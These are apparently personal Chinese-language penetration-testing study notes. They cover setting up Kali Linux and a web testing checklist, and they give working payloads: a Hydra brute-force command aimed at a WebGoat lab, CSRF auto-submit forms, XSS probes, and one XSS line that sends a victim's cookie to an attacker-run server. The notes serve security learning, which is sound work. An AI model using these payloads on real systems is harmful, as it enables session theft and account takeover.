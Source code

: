 # kali

## 下载安装

下载地址：<https://www.kali.org/downloads/.html>，选择`Kali Linux 64 bit Vbox`，跳转到[Offensive Security Download Page](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)，选择`Kali Linux VirtualBox Images`选项卡，选择`Kali Linux Vbox 64 Bit Ova - Torrent`，下载种子文件。

下载torrent工具：[BitComet](http://www.bitcomet.com/en)

在VirtualBox中导入kali-linux-2019.1-vbox-amd64.ova

root默认密码：toor

## 渗透过程

1. DNS解析域名子域名，看有哪些IP，了解服务器组网。
2. Nmap扫描开放了哪些port，对应端口运行哪些服务，服务版本，OS版本。
3. 若存在Web服务器，查看https协议版本和使用的加密套件。
4. F12查看页面元素是否存在隐藏域。
5. 尝试修改cookie。
6. 获取robots.txt查找后台入口。
7. 爬虫所有链接获取更多URL，进一步了解后台及部署了哪些应用。
8. burpsuite拦截修改请求，如上传文件把`content-type: text/html`改成`image/png`，修改`User-Agent`。
9. burpsuite intruder爆破爬取URL
10. repeater多次修改请求
11. 用户身份在客户端请求参数中携带，如id，篡改。


## 安全维度

### 一、身份验证

- 用户名口令：登录，注册，重置密码等页面枚举用户名比较响应时间，intruder爆破，字典爆破口令。
- 基本身份验证：使用Hydra进行Authorization: basic base64code=爆破：`hydra -Luser_list.txt -P top25_passwords.txt -u -e ns http-get://192.168.56.11/WebGoat`。
    - -u 先迭代用户名，防止被锁定
    - -e ns 使用空密码

!!! tip
    每个用户最多使用四次登录尝试：1. 空，2. 与用户名相同，3. 123456

- 摘要身份验证：MD5(用户名，密码，nonce)
- NTLM/Windows身份验证：持久连接交换challenge
- Kerberos身份验证：Windows凭证登录
- Bearer tokens
- 爆破tomcat部署webshell


### 二、会话管理

#### cookie中的会话标识

!!! warning
    如果cookie中的sessionID没有httponly，若存在xss，可以发送恶意请求。

- 会话固定：构造恶意链接诱骗用户点击，使用其预设的SESSIONID
- burp sequencer分析sessionid是否随机：获取存在set-cookie的响应，发送到sequencer，分析cookie，解码获取中的sessionid

##### CSRF

POC：创建一个页面，包含form指向攻击请求地址。 --> 在javascript里自动提交。 --> 诱骗受害者在同一个浏览器中访问该页面。

```html tab="使用脚本自动提交"
<form action="http://www.baidu.com" method="POST" id="csrf_form">
    <input name="description" value="">
</form>
<script>
    var form = document.getElementById("csrf_form");
    form.submit();
</script>
```

```html tab="在body加载时提交"
<script>
function dosubmit() {
    document.getElementById(form).submit()
}
</script>
<body onload=dosubmit()></body>
```

##### XSS

特征：输入`<`原样显示，查看源码未做编码。

POC：

- `<script>alert('xss')</script>`
- `<img src=x onerror="javascript:alert('xss')">`
- 闭合如`<input value="输入的内容">`：`" onmouserover="javascript:alert('xss')` --> `<input value="输入的内容" onmouseover="javascript:alert('xss')">`
- 在href属性中注入链接或者其他事件，使用户在点击的时候触发：`<a href="javascript:alert('xss')">点击我</a>`

!!! example "利用XSS获取cookie"
    启动一个服务器接收请求，利用XSS发送请求`<script>document.write('<img src="http://192.168.56.10:88/'+document.cookie+'">');</script>`，获取受害者cookie。


#### token


## 特征

- BASE64：包含大小写字母数字+/，以%3D(==)结尾
- SHA1：40位16进制字符串，每个16进制代表4位，40x4=160位
